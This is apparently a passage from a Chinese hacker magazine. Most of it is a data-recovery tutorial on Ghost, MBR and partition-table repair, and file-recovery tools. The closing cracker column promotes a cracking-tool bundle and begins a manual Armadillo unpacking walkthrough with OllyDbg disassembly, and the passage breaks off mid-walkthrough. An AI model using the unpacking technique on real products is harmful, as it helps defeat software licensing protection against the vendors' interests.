在第一章中介绍了数据的存储原理，那么我们就第二章来利用这些基本功，操作一些简单的数据恢复软件。这一章的主要难点是如何确定定位数据丢失的区域以及常用工具的操作。下面首先从 Ghost 说起，备份是关键嘛！Ghost 是我们常用的数据备份工具之一了，我就把它的常规用法简单地说一下。

# 一、GHOST

Ghost 的功能很强大，它可以实现硬盘克隆、分区克隆、硬盘镜像、分区镜像、镜像中恢复等诸多功能。

## 1、硬盘克隆

运行 Ghost，出现如图 1 的画面时按下回车键，再依次选择“Local” — “Disk” — “To Disk”，如图 2。

接着出现如图 3 的界面，这里一定要分清主从盘，否则后果大家应该是能想象得到（Ghost 是扇区对扇区进行点对点操作的，刻反了数据将彻底丢失）。选择待克隆数据盘后按回车键，接着选择空白盘，再次按回车后来到如图 4 的界面。这个时候按 ALT+O 组合键，出现确认的界面，选择“yes”，就开始克隆了，如图 5。

## 2、硬盘镜像

运行 Ghost，出现如图 1 的画面时按下回车键，依次选择“Local” — “Disk” — “To Image”，如图 6。

在母盘上面按下回车键后出现如图 7 的界面，先选择需要制作镜像的母盘驱动器，然后选择镜像存放位置并设置文件名称，最后选择“Save”进行保存。这里可以选择压缩模式，“No”为不压缩，“Fast”为快速压缩，“High”为高压缩，回车确定后就开始硬盘镜像的制作了。

## 3、分区克隆

运行 Ghost，出现如图 1 的画面时按下回车键，依次选择“Local” — “Partition” — “To Partition”，如图 8。

选择要克隆的硬盘上的分区，按回车确定，再选择需要拷贝到的目的分区。本软件可以跨硬盘进行分区克隆（即：将该分区的数据完全拷贝到其他硬盘的一个分区上），所以在此我们选择另一块硬盘，如图 9。选择硬盘后再回车选择要克隆的分区，如图 10，按 ALT+O 组合键再选择“yes”进行确定就可以开始克隆了。

## 4、分区镜像

运行 Ghost，出现如图 1 的画面时按下回车键，依次选择“Local” — “Partition” — “To Image”，如图 11。

选择好待备份硬盘的某个分区，按“TAB”键切换到“OK”，按回车确定。然后选择镜像保存的路径及镜像文件名，按“TAB”键切换到“Save”，按回车键确定。同硬盘镜像一样，这里会弹出压缩选项选择的对话框，其选项意思同硬盘镜像一样，选择一种后回车确定，然后在弹出的确认框中选择“yes”，开始进行分区镜像的制作。

## 5、硬盘镜像恢复

运行 Ghost，出现如图 1 的画面时按下回车键，依次选择“Local”－“Disk”－“From Image”，如图 12。

回车确定后选择好“.gho”镜像文件，打开后选择要恢复的磁盘并按 ALT+O 组合键进行确定。接下来会列出镜像的一系列参数，不用理会继续“OK”，在接下来的弹出确认框中选择“yes”就开始恢复镜像了。

## 6、分区镜像的恢复

运行 Ghost，出现如图 1 的画面时按下回车键，依次选择“Local”－“Partition”－“From Image”，如图 13。

回车确定后选择好“.gho”镜像文件，打开后选择要恢复的磁盘并按“OK”进行确定，再选择要恢复的分区并按“OK”确定，接下来在弹出的确认框中选择“yes”就开始恢复镜像了。

Ghost 的基本应用就到此为止，它还有一些高级选项在“Options”菜单里，而且其还拥有命令行参数执行方式，大家可以在 DOS 中键入“ghost /?”来查看，这里就不多啰嗦了。既然现在我们知道了数据的备份，那么现在就真正进入数据恢复的环节。

# 二、MBR 区故障（故障几率 70%）

MBR 区故障主要包括主引导记录故障和分区表故障两种：

## 引导记录故障主要体现为：

- 1、硬盘不能正常引导，而用软盘或光盘启动后却可以进入任意盘符，查看任何文件；
- 2、硬盘不能正常引导，而用软盘或光盘启动都无法引导。前者是因为主引导记录丢失或损坏，后者是因为硬盘被上逻辑锁。

## 如何修复主引导记录？

- 1、使用任何版本的 MS-DOS 都可以，执行“fdisk /mbr”就可以重建主引导记录。
- 2、使用 Windows 2000/XP/Server 2003 安装盘的故障恢复控制台，执行“fixmbr”询问时选择“y”就可以重建主引导记录，而且对 Windows 2000/XP/Server 2003 效果较好。

## 那么如何进入故障恢复控制台呢？

可以使用从系统盘里分离出来的，也可以使用 Windows 安装盘自带的，具体方法是：

开机并使用光盘启动，出现安装界面时按 R 键进入故障恢复控制台，选择所使用的 Windows，输入 administrator 的口令就可成功进入。

## 如何解锁逻辑锁？

要解锁逻辑锁我们必须先知道逻辑锁的工作原理。我们知道，操作系统在启动时，MBR 会先检查主引导分区，然后主引导分区再检查扩展分区的每个逻辑分区，或者通过链式存储的原理通过 DBR 指向下一个分区，直到分区结束的 55AA 标识符。硬盘逻辑锁修改了第一个逻辑分区的地址，并将它修改为引导分区的地址，这样操作系统在启动时查找到逻辑分区，而逻辑分区地址已经被修改成了引导分区，这样造成死循环，导致任何启动盘都无法引导。

解开逻辑锁的最简单方法就是先格式化一张启动盘，并将 fdisk、diskedit 等工具放入，然后找到启动盘里的 io.sys 文件，并且去掉它的只读、系统、隐藏属性，用 UE 或 PC-TOOLS 等十六进制工具将其打开，查找第一个 55AA 将它修改为任意字符，保存后退出即可。

然后将计算机设为软驱启动，放入刚刚做好的启动盘，这时就可带锁启动，并依次执行“fdisk /mbr”、“sys c:”，完毕后用 diskedit 打开分区表查看 80、55AA 是否正常。如不正常，再镜像编辑或者用下面的方法修复分区表。

当然还有好多方法来解锁硬盘，比如：江民炸弹解锁盘、利用 debug 命令进行扇区调试等。不过 debug 命令过于繁琐，而江民炸弹解锁盘比较简单，这里就不再作介绍了。下面我们来看看分区表的恢复。

分区表的故障主要体现为用分区工具查看分区时发现硬盘无分区；或者某些分区工具报错，根本无法查看分区；还有个别分区丢失等一系列现象，这些都属于分区表故障。我们可以用重建分区表的方法来解决，对于个别存有重要文件的硬盘，我们可以先把分区表备份至其他存储器上（比如软盘），然后删除所有分区，再重建分区表。

## (1) DISKFIX

DiskFix 是一款比较直观的分区表恢复工具，而且效果也是非常不错。利用它，我们可以修复所有分区都丢失的分区表和无法查看的分区表，而且修复速度非常快，操作界面非常简单，比较适用于新手。DiskFix 有一个命令行参数，就是 Test，表示测试的意思，在运行 DiskFix 时，最好先运行一下 diskfix /text（如图 14），测试一下所有分区是否能够恢复。如果能恢复所有分区，就在机器重启之后继续运行 diskfix 来修复所有分区；如果不能恢复或恢复不全则换用其他工具，以免直接运行 diskfix 对分区表造成改写导致其他工具也无法恢复分区表。

DiskFix 应用如下：

在纯 DOS 中运行 diskfix /text 时，必须在刚刚重启过的机器上的纯 DOS 中运行，以免驻留内存程序对此工具的影响。我们看到如图 15 的界面时不必理会，直接点击“确定”，因为我们现在是在测试的环境下运行。接着会出现如图 16 的界面，提示找到一个主分区，问你是否“保留”此分区。

如果此分区和你原来的第一个分区的容量一样就可以选择“保留”，不一样就选择“跳过”吧。这里我们选择“保留”，出现如图 17 的提示，找到一个逻辑分区，询问是否保留。继续“保留”，一直下去找到了所有分区，这时出现如图 18 的提示框，询问是否把找到的所有分区写入分区表。

我们可以选“放弃”，因为这是在测试环境下，选择“确定”也不会去写入分区表。如果我们觉得刚刚测试的分区符合实际大小，就可以重启计算机再次运行 diskfix 了。操作与刚才一样，只是到图 18 的时候，点击“确定”将找到的分区写进分区表。最后会提示你是否重启计算机，如图 19，选择“确定”即可。

## (2) DISKGEN

下面我们来介绍一下 diskgen，这是一款优秀的磁盘工具，它可以实现对硬盘的分区、格式化、乃至比较棘手的分区修复，并且可以备份、恢复分区表，修改分区参数，重建分区表、重写主引导记录等功能。

不过在其中最有特色的就是重建分区表功能，相信大家也从不少的文章中看到过它的身影。它可以无条件地重建分区表，并且重写主引导记录，操作界面比较友好，不仅是图形界面，还支持鼠标，在主界面里还列出各个分区的详细参数，方便我们查询。

Diskgen 的最大好处就是所有的操作都是在内存中进行，倘若最后不存盘，是不会对原分区表进行改写的，这就给我们提供了很大的方便。Diskgen 怎样使用呢？下面我们就来看看这款麻雀虽小、五脏俱全的磁盘工具。

在纯 DOS 里输入 diskgen（如图 20）并按回车键后出现该工具的图形化界面。如果你的分区表存在错误，或个别分区丢失了，它会自动提示分区表出现问题，并询问你是否自动修复。建议大家选择交换模式，因为在分区错乱的情况下，自动模式判断分区极不准确，很容易把分区表弄乱。

我们最好是准备一张空白的软盘放入软驱（或者用其他的硬盘备份），然后选择“工具”菜单下的“备份分区表”选项，或直接按 F9 键（如图 21），把错乱的分区表备份为“hdpt.hdp”的分区表文件（如图 22）。

这样我们无论对分区表做什么操作都可以放心大胆了！也许大家要问：“之前不是说过，不存盘的情况下对分区表的操作都无效吗？怎么现在还要备份分区表？那不是多此一举吗？”其实对硬盘这些敏感的区域进行操作的时候都建议备份，有备无患嘛！因为任何的分区或磁盘工具都不可能 100% 地保证磁盘数据的安全，所以我们在对分区表操作之前把分区表备份下来还是有必要的。

接下来我们可以按 F6 键把所有的分区全部删除，然后存盘退出，但注意不要选择重启。接着再次运行 diskgen，选择重建分区表，就可对分区进行完整的修复了。如果分区表能够修复好，我们就存盘退出并重启系统，如果分区表修复不好，那么我们就用以前备份的去恢复，然后存盘退出并重启系统，这样还可以找到别的工具来修复。下面主要说一下重建分区表。

选择“工具”菜单下的“重建分区表”，如图 23，弹出确认框要求你是“继续”还是“取消”。选择“继续”后弹出询问分区表的查找方式，是使用“自动方式”还是“交互方式”。如果你对以前的分区比较熟悉，那么“交互方式”是最可靠的，否则选用“自动方式”查找。

这里我们选用“自动方式”开始查找了，如图 24、图 25、图 26，“自动方式”在查找分区表的时候是没有提示的，完全傻瓜化。

当弹出如图 27 的提示时，我们点击“确定”后存盘生效。

为避免主引导记录有错误，我们可以直接选择“工具”菜单下的“重写主引导记录”，这时会弹出如图 28 的提示框，点击“确定”后就重写 MBR 了。

接着我们再对分区参数进行一下检查，“工具”菜单下选择“参数检查”或按 F12 键，如图 29，“确认”后会告诉你分区参数是否正确，如图 30。如果没有错误的话，就可以选择“硬盘”菜单下的“存盘”了，保存完毕后退出并重启计算机就可以实现对分区表的恢复。

Diskgen 虽然功能强大，但是也有它办不了的事，我就曾经遇到过一次郁闷的事。记得有一个朋友的 160G 大硬盘主要是作为备份用的，所以一直挂的是从盘。那天突然断电，数据就变成泡影了，试了好多种分区维护软件，却都提示是动态分区，最后还是 PR 帮了我的大忙，下面就来看一下这个神奇的工具吧！

## (3) PR

PR 的操作界面不如以上两个的雅观，蓝蓝的屏幕加上白色的字，看起来好像 Lformat，年代确实有点久远了……PR 是一款专业的分区表维护软件，它以精细著称，所以在使用中，速度也比较慢，但功能非常强大。它不仅能够恢复分区，而且还可以在恢复之后查看该分区的根目录，这一点就非常的难得。我们可以清楚地看到所恢复的分区是否是原来的分区，有效地防止了恢复错误分区的可能。

首先在纯 DOS 里运行 PR，如图 31，接着在工具主界面（如图 32）中按下“Ctrl+Enter”组合键进入如图 33 的扫描阶段。这段 scanning 的时间比较长，慢慢地等待吧。

一段时间后提示发现一个分区，询问我们是否保留，如图 34。我们按“Y”键保留，然后利用上下箭头选中左边“Logical ?:”下边的“Unallocated”，并按回车继续扫描。当又发现一个分区时，继续按“Y”键确定后出现如图 35 的画面，仍然继续扫描剩下的空闲分区。

当我们把所有的分区都扫描到后，可以在任意“Logical ?:”上按回车键来查看分区中的数据资料，如图 36。当确保分区无误后就可以按“ESC”键退出了，这时该软件会询问你是否保存找到的分区，如图 37。按“Y”键保存之后会列出各个分区的大小以及未划分空间，如图 38。继续按回车键则会出现如图 39 的画面，这时按任意键就可以退出了。

再让我用别的分区管理软件看看硬盘，果然所有分区全部找回。PR 不仅有上述功能，还具有好多其他的小功能，大家自己去玩玩吧。

另外，在 DOS 下还有一些工具可以修复分区，比如江民、金山、诺顿等安全公司的磁盘工具一般都可以修复分区，这里就不一一介绍了，其实都大同小异。

## (4) Partition Table Doctor

DOS 下的磁盘工具介绍完了，我们再来看看 Windows 下的，这里主要给大家介绍的是分区表医生（Partition Table Doctor）。由于深山红叶 V22 中的比较好使，所以就懒得去找安装文件了。

首先我们运行深山红叶的 Windows PE 系统，经过漫长的等待进入后点击“开始”菜单，选择“磁盘工具”下的“硬盘分区表修复与管理”，如图 40。如果分区表有故障的话，就会出现如图 41、图 42 之类的报错。

我们点击“是”，看其是否能够自动纠正。结果试验机的分区表已经经过 N 多种分区软件的折腾了，没有正确纠正，如图 43。在下面显示的分区参数正确，有一个主分区和两个逻辑分区，且容量都正确。而上面分段显示的分区结构却是一个主分区和一个扩展分区，逻辑分区并未划图 41

图 42

图 43

图 44

分区表肯定还有故障，所以我们要重建分区表。

点击“重建分区表”之后会出现如图 44 的选择界面，我们最好选择“交互模式”，因为刚开始的时候自动修复并未成功。“下一步”后经过几秒钟的时间就会搜索出硬盘中所有的分区和分区详细的参数，并为你列出来以供选择，如图 45。

选择所有的分区后再次点击“下一步”，出现画面如图 46。到现在，所有分区都可以恢复，可以点击“常规”下的“保存”了，如图 47。最后再点“退出”，提示你是否要重新启动，点击“重启”后，分区表就完全修复了。

# 二、本分区参数记录 BPB 故障(5%)

由于在数据库恢复中，分区表恢复占用的比例比较大，所以上面啰嗦了些，下面我们来看 BPB 丢失的现象。BPB 是每个分区必须有的参数块，它的损坏会导致分区无法访问或分区格式不对，它的丢失会造成分区没有格式化等现象。能够修复 BPB 的工具很多，比如：NDD、PC-TOOLS，还有刚才说过的 Partition Table Doctor 等。因为在数据恢复中，BPB 单独丢失的现象很少，占用率只有 5% 左右，所以我们只大概介绍一两个简单工具的用法，就不多浪费大家的时间了。

## (1) NORTON DISK DOCTOR

首先我们说 NDD，它是诺顿磁盘医生（NORTON DISK DOCTOR）的简称，名气可不小哦！想必大家早已有所耳闻，而且该工具在时间和工作效率上都可称是一流的。出于使用的方便性，我们选择了雨浪飘零多功能启动盘第七版 Windows PE SP2 中的 NDD2005，如图 48。

先选中左边的“Fix Errors”就可以在以后的扫描过程中自动修复错误了，再选择所需要扫描的盘符，然后点击右上角的“Diagnose”按钮就开始扫描磁盘错误，如图 49。

当然大家也可以点击“Options”按钮进行一下高级设置，一般默认使用即可，这里就不多说了。程序工作的时候会检测硬盘数据组成的诸多组成模块，在这里简单地介绍一下 NDD 所扫描的模块：checking partition table 表示检查分区表、checking file structures 表示检查文件结构、checking indexes 表示检查文件索引、checking security descriptors 表示检查安全描述符、checking file data 表示检查文件数据、checking free space 表示检查自由空间。

当出现“norton disk doctor's disk check has been completed”的时候，表示诺顿磁盘医生的磁盘检查完成，如图 50。现在我们点击“确定”后再点击“close”关闭 NDD。最后重启计算机，看一看有错误的磁盘是否已经修复。一般来说，NDD 还是大小通吃的，如果不行就用下面的方法。

## (2) Partition Table Doctor

Partition Table Doctor 的功能可谓是非常强大，每个参数块都有非常强悍的作用，这可是我们必备的高级工具啊，就拿它的修复引导模块再说一次吧。

我们这次用一个例子来证实一下，近期一个比较流行的主引导病毒程序“猪三.exe”想必大家都听说过，该病毒运行后会重启计算机，当计算机重启时硬盘会报告没有找到分区表，如图 51。其实这个不是分区表丢失，我们可以进入深山红叶的 WinPE 用 Windows 资源管理器来察看，如图 52，显示是未格式化状态。

我们首先打开 Partition Table Doctor，如图 53，是否看见在 E 盘前面有一个红色的叉，这就表示该分区的 BPB 丢失或损坏了。我们在该分区上单击右键选择修复引导，会给你列出修复引导的模式，可以看见自动或交互两种模式可供选择。至于要选择哪种模式，大家可以根据自己的需要进行选择，我这里为了方便测试，就拿自动模式来给大家讲解了。

很快就出现了结果并询问是否修复该分区的引导扇区，我们选择“是”，如图 54。个别情况会提示你选择操作系统的类型，之后就会出现“恭喜您，Partition Table Doctor 已经修正了错误”类似的提示，之后我们就可以看到分区上面的那个红叉已经没有了，如图 55。最后我们保存并退出 Partition Table Doctor，重启计算机后再次察看，数据已经全部恢复，如图 56。

在这里我给大家讲了一下我的修复过程，其实里面最重要的就是思路！工具是死的，人是活的，大家千万不要生搬硬套我的方法，这样很有可能会弄出更大的问题，遇到诸如此类的问题我们必须结合提示去思考，觉得可以去做再动手。

利用这种方法还可以修复对硬盘整体进行过分区格式化的硬盘，但是必须确保分区格式化之后硬盘没有再写入过任何数据，我就利用此方法修复过误被 DM 重新分区格式化的硬盘。

大体思路是：将该盘现有的分区全部删除，然后再用丢失文件之前级硬盘分区的工具，重新给硬盘按原来的大小进行分区，并且不能够格式化。这一点相当重要，因为多种分区工具之间的算法是不一样的，如果不一样的话就会造成数据的二次破坏。最后再用修复引导的工具去修复，结果数据完好无损。

这个方法的前提是要数据没有被覆盖，如果数据已被覆盖也可一试，当然不一定会有很好的效果。没谁会修复几个分区，没准会丢失一些数据，这谁也说不好，死马当成活马医吧！碰运气了。不过也可以用以后的方法做扇区扫描来进行数据恢复，在这里先卖个关子。至于这几个典型的扇区磁盘编辑，等到以后的数据恢复高级篇再作详细的介绍。

# 三、文件分配表 FAT 和文件目录表 FDT 的数据急救措施 (15%)

对于 FAT 表想必大家已经非常熟悉了，FAT 表的丢失会造成分区就如新格式化的一般，损坏则会造成数据读取出错或者数据读取不完全；FDT 表的丢失、损坏同样也会造成数据的全部丢失和部分丢失，所以我们现在把这两部分放在一起说一说。

首先对 FAT 表的直接丢失作一下讨论，FAT 表的直接丢失通常是因为错误的、失误的格式化造成的。通常 FAT 都是有两个，这个我们可以用 WinHex 来查看，如图 57，两个 FAT 表是挨着的。

至于 WinHex 在数据恢复中的典型应用，以后在高级篇中配合其他的程序作详细的介绍，我们先介绍几条常用的 DOS 命令：

**Unformat**：unformat 命令与 format 命令恰恰相反，是一条反格式化命令。在介绍 unformat 之前，我们先来看看 format 的工作原理。通常我们常用的 format 参数有 /q、/u、/s，其实系统里执行格式化也是调用的这几个参数，当然不包括 NTFS 分区格式的格式化 FS 参数。/q 是快速格式化的意思，它只清除 FAT 表并不进行磁盘校验，而且不把 FAT 表追加到本分区的最后几个扇区，所以不能用 unformat 来恢复；剩下 /u、/s 参数，它们工作时都会进行磁盘校验，就是会在格式化的时候相对较慢，并且在校验完成后将 FAT 表追加到分区的最后几个扇区，只有这种情况我们才可以用 unformat 来恢复。这种现象现在并不常见，所以也就提一提而已。

**Scandisk 与 chkdsk：**

scandisk 是 Win98 年代我们比较熟悉的一条命令了，在非法关机并重启的时候就会出现，而 2000 以后就采用了 chkdsk 来替代 scandisk，同样在 FAT32 的分区非法关机并重启的时候也会出现。那是因为什么呢？是因为 scandisk 与 chkdsk 都会检测磁盘并寻找 FAT 丢失的簇，如果有丢失的簇，就会把这些丢失的簇转换为根目录下的文件。Scandisk 有众多参数，其中最为重要的就是“/autofix”，它表示自动修复错误的意图；chkdsk 的参数“/F”是一个非常重要的参数，一直沿用至今，在 2000、XP 中都可以经常看到它的身影。

以上用几条老命令来修复 FAT 的思路只是承上启下说明一下，并不是让大家用它们去修复 FAT，这样效率太低了。我们可以借助一些数据恢复软件来进行大批量快速恢复，主要涉及到的软件有 Easy Recovery、FinalData、Recover NT、Photo Recovery 等，通过这些数据恢复软件再加以取长补短，我们便可以化腐朽为神奇。

上述工具都各有所长，Easy Recovery 扫描速度非常快，擅长文件的误删除恢复、分区遭格式化恢复；FinalData 则以精细为主，擅长原始恢复（相对于分区表无法找到的硬盘、文件系统发生改变或没有文件系统的分区）；Recovery NT 可以恢复网络上的磁盘驱动器，大大方便了我们的操作；PCI Filerecovery 是专门针对 FAT 丢失比较有效果；Photo Recovery 是以照片、图像恢复为己所长；

- (1) Easy Recovery

下面我们先看一下 Easy Recovery 的使用方法，它拥有非常华丽的外表而且操作简单、界面大方，每个模块都列出了具体的操作定义，可是咱菜鸟的首选工具。

运行后我们选择“数据恢复”，来到如图 58 的界面，这里我格式化了自己的一块硬盘来做试验，所以先选择“从格式化中恢复”。点击之后，工具会提示你将恢复出的数据放在一个比较安全的设备中，而且不能放在将要作恢复的盘符中（这里友情提示一下，不要将恢复的数据放在有坏道的分区或硬盘中，最好单独找一块硬盘存放数据，在数据量比较小的时候可以考虑闪存，恢复出的数据一定要一式双份，以防前功尽弃），然后点击“确定”，再选中格式化的分区之后点击“下一步”，程序就开始工作了。

经过一段时间的等待（如图 59），当出现如图 60 的画面时就可以选择要恢复的文件了。由于我刚才把我的 J 盘都格式化了，现在真的有点心疼，所以直接选择了驱动器。看到了吧，下面的文件目录都已经自动选中了，大家可以选择直接的文件目录，也可以双击文件目录选择子目录或文件。继续“下一步”出现如图 61 的画面，这时我们可以选择一个存放数据的盘符（这个分区必须满足三个条件：1、该分区是一个正常的分区，确保没有坏扇区；2、该分区不是将要作双击恢复的分区；3、该分区的剩余空间要足够大，必须能够存放得下待恢复的数据），也可以是一个 FTP Server。不过建议大家最好不要选择 FTP server，以防在数据的传输过程中丢包或者 FTP Server 的重启。

大家选择好路径后就可以点击“下一步”保存数据了。稍等片刻就全部恢复了，恢复完毕后会提示你总数据的容量大小、文件的个数，我们点击“完成”就可以退出，格式化恢复就是这么简单。

Easy Recovery 的数据删除恢复同上述的格式化恢复差不多，这里就不再举例了，相信大家也能够举一反三。不过大家需要注意的是，正确掌握各种工作模块的具体作用，不要胡乱用，比如用删除恢复模块去恢复已经被格式化的分区，是什么数据也找不到的。在前面的基础中已经说过，格式化修改的是 FAT，删除修改的是 FDT，是不一样的。

其实我们在使用 Easy Recovery 的时候用得最多的是高级恢复，这里面可以对误格式化和删除的文件进行数据恢复操作，而且还可以设置高级选项过滤没有用的文件，如图 62，所以推荐大家使用。

使用方法和格式化的同样，就不再多介绍了。至于对原文件系统进行了转换的操作后，比如把 NTFS 转换成了 FAT 后的数据丢失，那么就要用到 Easy Recovery 的原始恢复了，如图 63。我们可以直接挖掘硬盘数据区，这个数据恢复程序没有依赖任何 FDT 和 FAT，只是单一地在 DATA 里面挖掘，所以恢复的时间相对要慢得多。不过好在可以过滤文件类型，所以在配置过后还是不错的，一般这类的数据恢复都使用 Easy Recovery 的这个功能。

## (2) FinalData

下面我们来看一下 FinalData，它相对于 Easy Recovery 的速度要快得多，不少用过 FinalData 的朋友都说这个工具太慢了，那是为什么呢？其实 FinalData 在 FAT 和 FDT 上面的扫描速度快得连眼都没有看清就完成了，之所以说它以精细为主，并不是因为这些，而是因为它有好多项供扇区扫描时执行，这就增大了数据恢复的可能，不过的确减慢了速度。比如恢复一个 40G 容量的数据，差不多真要花上一天的时间，呵呵……下面我们来看看 FinalData 的具体操作。

运行 FinalData 后的界面如图 64，我们先点击“参数选择”按钮，设置好自己需要的参数，一般没必要的情况下选择默认即可。参数设置好后点击“确定”，然后再点击“打开”按钮或从“文件”菜单中打开，这时在弹出的窗口中设定要恢复的分区或物理驱动器。

这里我就以分区为例了，物理驱动器的恢复方法与它大同小异。不知道大家在点击时留意过没有，在“取消”的下面有一个“查找格式”按钮，它可以查找混乱的分区 FAT 链，利用它我们可以得到更好的效果，但是付出的时间又增加了大约一倍，所以不到万不得已的时候不要用它。

我选择的是 I 盘，点击“确定”后出现如图 65 的提示，询问你是否扫描簇。扫描簇和上面 Easy Recovery 的原始恢复没有区别，而且时间还要比 Easy Recovery 长，效果自然精细了很多，但是恢复出来的数据还得精挑细选，所以一般情况下不推荐这样恢复数据，我们还是选择“取消”就可以了。

经过扫描而列出已经删除的目录及文件结构，如图 66，我们在那标记了已经删除的文件夹上面按鼠标右键，然后选择“恢复”，出现如图 67 的画面。浏览一个分区并新建一个文件夹后点击“保存”按钮就可以恢复数据了。

我们了解了这两个典型的数据恢复软件，简单的数据恢复就告一段落了，其他的工具和它们都差不多，只是在操作上略有不同。

以上就是一些简单的数据恢复操作方法，至于数据恢复的高级技巧，包括手工编辑 DPT 和 DBR、扇区文件拷贝、扇区复制、破损文件修复、以及开盘操作的简单过程，将在下一章的“数据恢复高级篇”内进行介绍。

> 编辑点评：嗯，这是一篇实用价值超高的数据恢复简明教程啊！各位常常误操作造成数据无法恢复的朋友可以一试哦！而且本文在对数据存取方面的原理知识介绍上写得很详实，透露出了部分“由软控硬”的一些原理，如果大家能够悟出来什么，将对自己编写软控程序很有用。最后，当然是和广大读者一起期待作者的高级篇啦！

> CRACKER 栏目首语：从 06 年 7 月开始，《黑手》陆续地为大家提供破解前奏系列教程，这次继续由作者带来“难啃”的 Armadillo 脱壳，另外算法和技巧方面继续延续上期的精彩，希望大家有个快乐的“六一”节。

# 每月破资源

# 每月破技巧

资源名称：加密与解密工具新年大礼包 2007
大小：694.75 MB

本光盘主要收录了常用的破解工具，工具来自 bbs.pediy.com 兄弟们的分享，本次以精简实用为目的，因此主要收录一些常用工具为主，文档资料不太多，目前这些文件对于加解密爱好者来说，基本上够用了。看雪论坛和 BCG 基本每年都会发布一个光盘，收集的资料非常有收藏价值，附件包含一个 BT 下载种子和目录列表，方便大家。

软件保护经验谈 (2)

- 5、尽量选择比较复杂的算法进行注册保护（比如一些密码学算法），但最好还是使用自己设计的算法，如果采取一些简单的算法或者使用一些常见的密码学算法，那跟引狼入室没有多大的区别，因为这些对破解高手来说，是完全不可靠的，而自己设计的算法就不同了，每个人都有自己的思想，因为想法的不同，所以在很大程度上可以增加破解的难度。
- 6、检查注册信息代码编写得越分散越好。比如你的钱全部放于一处，给人发现了就全没了，但如果将钱分别放在不同的地方，那么即便给人发现，也不会全没了，注册信息代码也是如此。
- 7、在检查注册信息的时候编写大量的运算代码但和注册无关。如果你使用大量的垃圾运算代码来设置“陷阱”，使得破解者一头雾水，最终可能会因为这些垃圾代码而搞得晕头转向，从而放弃破解念头，因为并不是每个人都经得起耐心的锻炼的。
- 8、将试用版和注册版完全隔离。在试用版中只提供少量的功能，而在注册版中提供完全功能，这样破解者即便把试用版破解了也没用，因为功能残缺不全。

# 破解前奏之手脱
Armadillo 单进程中的一个特例

December

从本文中你可以学到：
手脱 Armadillo 单进程的特例

某日朋友发过来一个程序，他说自己加了一个 Armadillo 的壳脱不了，问我能不能脱，我就首先问了他单进程还是双进程，朋友马上回复说是单进程，晕倒，单进程的是挺简单的吗？于是我就决定试一下，结果我也晕倒，为啥？因为失败了呗，先来看一下我的失败过程吧！

# 【需要准备的工具】

- PeID v0.94（用于检测 PE 文件是否加壳）
- OllyDBG v1.1（下简称 OD，用于动态调试）
- LordPE v1.4（脱壳辅助工具）
- ImportREC v1.6 Final（脱壳辅助工具）
- ArmMutex（一个 Armadillo 双进程转单进程的脚本）
- Armadillo Find Protected（用于对 Armadillo 保护选项的检测）
- Brain（这个是非常重要的，没有它，你根本不可能实现以下过程）
- 辅料：香烟或者咖啡若干（对手脱壳是件无聊且麻烦的事情，来一些辅料可以使自己心情不至于太坏）

以上工具只要能够上网的话，都可以找到的，所以不要太担心找不到工具而伤心啊，嘻嘻！

# 【预备知识】

开始还是先来说说，脱 Armadillo 壳前的准备工作吧，首先使用 PeID v0.94 检测一下是否使用了 Armadillo 加壳，如图 1。

这里看到的是 Armadillo 3.78 - 4.xx，检测 Armadillo 的壳，仅仅使用 PeID 是不够，因为还得必须知道它是使用了哪些保护选项，Armadillo 的保护选项，如图 2。

其中只使用了 Standard protection 或者 Minimum protection 保护选项，其脱壳是最简单的，为了知道目标程序是使用了哪些保护选项，于是我使用 Armadillo Find Protected 来检测，检测到的结果，如图 3。

看来还真的单进程，标准版，而且还没有使用到其它的综合保护。至于单双进程是如何看到的呢？可以说具有查看进程的工具都具备这个条件，比如 Windows 任务管理器、LordPE、PETools 等，还有一个要说的就是，OD 设置忽略所有的异常，如有必要，可以使用隐藏插件隐藏 OD！基本准备的工作大概就是这么几步，下面来看看我的失败之旅。

工作大概就是这么几步，下面来看看我的失败之旅。

# 【失败过程】

因为只是单进程，而且还没有其他保护设置，于是我马上想到 he GetModuleHandleA 断点去断它，当然你也可以用 bp GetModuleHandleA，不过在这里我个人喜欢用硬件断点，OD 载入后停在下面代码处：

```
0105B000 <> 60          PUSHAD
0105B001    E8 00000000 CALL 0105B006
0105B006    5D          POP EBP
```

下断点：he GetModuleHandleA，shift+f9 运行后会断下，要留意每次中断后的堆栈：第一次：
00079500          00B76DF3    /CALL to GetModuleHandleA
from 00B76DED
00079504          00B8BC1C     \pModule = "kernel32.dll"
00079508          00B8CEC4    ASCII "VirtualAlloc"

第二次：
00079500          00B76E10    /CALL to GetModuleHandleA
from 00B76E0A
00079504          00B8BC1C     \pModule = "kernel32.dll"
00079508          00B8CEB8    ASCII "VirtualFree"

第三次：
00079264          00B65CE1    /CALL to GetModuleHandleA
from 00B65CDB
00079268          000793B4     \pModule = "kernel32.dll"
```

发现第三次中断的时候，正是返回的最佳时机，为啥在这里要返回呢？具体我也不太清楚，只能说这里需要经验的积累，所以在这里希望大家不是为看文章而看文章，看完就去实践，这样才有收获。废话不多说了，继续，返回后来到：

```
00B95CE1    8B0D AC40BC00    MOV ECX,DWORD PTR DS:[BC40AC]  ; 返回后来到这里
00B95CE7    89040E           MOV DWORD PTR DS:[ESI+ECX],EAX
00B95CEA    A1 AC40BC00      MOV EAX,DWORD PTR DS:[BC40AC]
00B95CEF    391C06           CMP DWORD PTR DS:[ESI+EAX],EBX
00B95CF2    75 16            JNZ SHORT 00B95D0A
00B95CF4    8D85 B4FEFFFF    LEA EAX,DWORD PTR SS:[EBP-14C]
00B95CFA    50               PUSH EAX
00B95CFB    FF15 BC62BB00    CALL DWORD PTR DS:[BB62BC] ; kernel32.LoadLibraryA  /// 这里也可能是一个标志吧
00B95D01    8B0D AC40BC00    MOV ECX,DWORD PTR DS:[BC40AC]
00B95D07    89040E           MOV DWORD PTR DS:[ESI+ECX],EAX
00B95D0A    A1 AC40BC00      MOV EAX,DWORD PTR DS:[BC40AC]
00B95D0F    391C06           CMP DWORD PTR DS:[ESI+EAX],EBX
00B95D12    0F84 2F010000    JE 00B95E47  /// Magic Jump，传说中的魔法跳
00B95D18    33C9             XOR ECX,ECX
00B95D1A    8B07             MOV EAX,DWORD PTR DS:[EDI]
00B95D1C    3918             CMP DWORD PTR DS:[EAX],EBX
00B95D1E    /74 06           JE short 00B95D26
00B95D21    83C0 0C          ADD EAX,0C
00B95D24    ^EB F6           JMP SHORT 00B95D1C
```

